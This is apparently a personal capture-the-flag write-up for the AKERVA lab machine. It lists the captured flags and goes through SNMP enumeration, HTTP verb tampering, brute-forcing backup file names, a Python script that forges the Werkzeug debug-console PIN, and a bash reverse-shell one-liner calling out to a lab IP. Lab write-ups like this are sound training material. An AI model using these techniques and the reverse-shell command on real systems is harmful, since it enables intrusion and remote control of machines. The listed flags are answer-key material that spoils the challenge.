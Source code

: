 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 

# Findings
###### Flags
1. `AKERVA{Ikn0w_F0rgoTTEN#CoMmeNts}`
2. `AKERVA{IkN0w_SnMP@@@MIsconfigur@T!onS}`
3. `AKERVA{IKNoW###VeRbTamper!nG_==}`
4. `AKERVA{1kn0w_H0w_TO_$Cr1p_T_$$$$$$$$}`
5. `AKERVA{IKNOW#LFi_@_}`
6. `AKERVA{IkNOW#=ByPassWerkZeugPinC0de!}`
7. `AKERVA{IkNow_Sud0_sUckS!}`
8. .
## External
### Enumeration
- ![](https://i.imgur.com/Mdc8mg7.png)
- ![](https://i.imgur.com/rRJ8jvD.png)

#### Port `80`
![](https://i.imgur.com/bQ919h1.png)
![](https://i.imgur.com/rbSuP4y.png)
![](https://i.imgur.com/aXPQ4zI.png)
![](https://i.imgur.com/qTBlqIg.png)
#### Port `5000`
- it is same with port `80` `/scripts`
	- ![](https://i.imgur.com/yuDVinJ.png)
- ![](https://i.imgur.com/apHLt2h.png)

<!--⚠️Imgur upload failed, check dev console-->
![[Pasted image 20240512213011.png]]
To crack and bypass this pin login, i need some kind of information disclosure, and i was stuck. but when i was back to my nmap scans, there were port `161` open that can leak some information so lets check that.
![](https://i.imgur.com/spIfLe4.png)

```shell
3 = STRING: "sh"
iso.3.6.1.2.1.25.4.2.1.2.1235 = STRING: "check_backup.sh"
iso.3.6.1.2.1.25.4.2.1.2.1239 = STRING: "backup_every_17"
```
![](https://i.imgur.com/5WeOOI5.png)
`c python /tmp/.wpzswsgl/.wptnzssj /usr/bin/pkexec /tmp/.wpzswsgl/dfxaciipk/dfxaciipk.so dfxaciipk uzmexkmxyb`
![](https://i.imgur.com/aIa2c45.png)
- We have got `scripts` from our enum part. so this script can be on there, but when i access the page it says access deined. so from my [[921. 🕷Web attacks]] class we have seen HTTP Verb Tampering this is HTTP auth. so lets use that and bOOM We got the file,.
![](https://i.imgur.com/hSryqNG.png)
```bash

#!/bin/bash
#
# This script performs backups of production and development websites.
# Backups are done every 17 minutes.
#
# AKERVA{IKNoW###VeRbTamper!nG_==}
#

SAVE_DIR=/var/www/html/backups

while true
do
	ARCHIVE_NAME=backup_$(date +%Y%m%d%H%M%S)
	echo "Erasing old backups..."
	rm -rf $SAVE_DIR/*

	echo "Backuping..."
	zip -r $SAVE_DIR/$ARCHIVE_NAME /var/www/html/*

	echo "Done..."
	sleep 1020
done
```
- to get the folder i need to get the `backup_XXXXXX` dates. for that i can get the year,month,date and hour except the sec and min
- ![](https://i.imgur.com/7nDZXt8.png)
- for that i went fro bruteforce.
![](https://i.imgur.com/5pelrSF.png)

and got the file
![](https://i.imgur.com/oC7nbgV.png)
```shell
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'ZokDHE_DJ_____enzU)=' );
```
![](https://i.imgur.com/lo3BILY.png)
![](https://i.imgur.com/C4G4pc9.png)
- Cred for 5000` aas : AKERVA{1kn0w_H0w_TO_$Cr1p_T_$$$$$$$$} `
- I followed [this blog](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug) and [thisCTF](https://arz101.medium.com/hackthebox-agile-19a3559ad04a) and got all the Things except the Interface needs little bit tweak so i did that and got the pin for the console.
![](https://i.imgur.com/tlzA5Rk.png)
```python
import hashlib
from itertools import chain
probably_public_bits = [
        'aas',# username
        'flask.app',# modname
        'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
        '/usr/local/lib/python2.7/dist-packages/flask/app.pyc' # getattr(mod, '__file__', None),
]

private_bits = [
        '345052366760',# str(uuid.getnode()),  /sys/class/net/ens33/address
        '258f132cd7e647caaf5510e3aca997c1'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
        if not bit:
                continue
        if isinstance(bit, str):
                bit = bit.encode('utf-8')
        h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
        for group_size in 5, 4, 3:
                if len(num) % group_size == 0:
                        rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                                                  for x in range(0, len(num), group_size))
                        break
        else:
                rv = num

print(rv)
```
### Gaining Access
![](https://i.imgur.com/YRauvdJ.png)
`import os;os.popen('/bin/bash -c "bash -i >& /dev/tcp/10.10.14.3/8003 0>&1"')`
![](https://i.imgur.com/zdEU6Rb.png)


## Internal
### Enumeration
`Sudo version 1.8.21p2`
```
 python /tmp/.wpzswsgl/.wptnzssj /usr/bin/pkexec /tmp/.wpzswsgl/dfxaciipk/dfxaciipk.so dfxaciipk uzmexkmxyb
 
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * * aas /opt/check_backup.sh
* * * * * aas /opt/check_devSite.sh

╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      320/sh
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -


-rwsr-xr-x 1 root root 22K Mar 27  2019 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)


/home/aas/.hiddenflag.txt

/tmp/.greper/pspy64
/tmp/.greper/shell-1337
```
### Gaining Access
![](https://i.imgur.com/fBaw1oA.png)
### Maintaining Access
```shell
(remote) root@Leakage:/root$ cat secured_note.md
R09BSEdIRUVHU0FFRUhBQ0VHVUxSRVBFRUVDRU9LTUtFUkZTRVNGUkxLRVJVS1RTVlBNU1NOSFNLUkZGQUdJQVBWRVRDTk1ETFZGSERBT0dGTEFGR1NLRVVMTVZPT1dXQ0FIQ1JGVlZOVkhWQ01TWUVMU1BNSUhITU9EQVVLSEUK

@AKERVA_FR | @lydericlefebvre


-?> It was base64 -> Vigera...(i got the Cipher type from dcode) -> then check the alphabets some of them are not there and remove them for i used(https://wilsoa.github.io/gallery/frequency_analysis.html) after that when u check the answer there is some meaning word.

WELLDONE FOR SOLVING THIS CHALLENGE YOU CAN SEND YOUR RESUME HERE A TRECRUTEMEN TAKER VACOMAND VALIDATE THE LAST FLAG WITH AKERVA{IKNOOOWVIGEEENERRRE}
```
![](https://i.imgur.com/RTx30Lr.png)
# Random Notes